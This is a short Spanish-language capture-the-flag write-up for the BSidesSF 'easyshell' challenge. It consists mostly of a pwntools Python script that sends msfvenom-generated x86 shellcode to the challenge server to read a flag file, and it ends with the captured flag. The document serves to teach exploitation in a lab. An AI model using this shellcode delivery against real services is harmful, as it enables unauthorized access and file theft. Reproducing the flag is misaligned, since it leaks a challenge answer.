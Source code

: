 Te daban el código fuente de dos ELF, uno de 32 bits y otro de 64 bits, y un servicio corriendo en un servidor donde tenías que enviar un 
exploit remoto para leer el archivo /home/ctf/flag.txt

Para el caso de 32 bits usaremos el payload de msfvenom de metasploit que te permite leer un archivo:



easyshell32

```python
#!/usr/bin/env python
import sys
from pwn import *

buf =  ""
buf += "\x2f\x98\x4b\xfc\x41\x9b\x93\x27\x41\xf5\x91\x40\x98"
buf += "\x9b\xd6\x90\xdd\xc2\xb8\xca\x62\x2e\xa4\xd9\x74\x24"
buf += "\xf4\x5b\x33\xc9\xb1\x15\x83\xc3\x04\x31\x43\x13\x03"
buf += "\x89\x71\xcc\x51\xe6\x40\xa8\x9f\xf8\xac\xc8\xc4\xc9"
buf += "\x65\x05\x7a\xa0\xb5\x2e\x78\xb2\x39\x4f\xf6\x55\xb0"
buf += "\xb6\xb2\x99\xd3\x48\xc3\x54\x53\xc1\x01\xde\x50\xd2"
buf += "\x85\x1e\xe2\xd3\x85\x1e\x14\x19\x05\xa6\x15\xa1\x06"
buf += "\xd6\xae\xa1\x06\xd6\xd0\x6c\x86\x3e\x15\x91\x78\x41"
buf += "\xb9\x06\xe8\xd0\xa3\xf9\x95\x5e\x4a\x29\x3c\xf2\xf3"
buf += "\x52\xee\x7e\x8c\xe8\xee"


addr = "easyshell-f7113918.ctf.bsidessf.net"
conn = remote(addr, 5252)

conn.send(buf)
conn.interactive()
conn.close()
```

FLAG:c832b461f8772b49f45e6c3906645adb
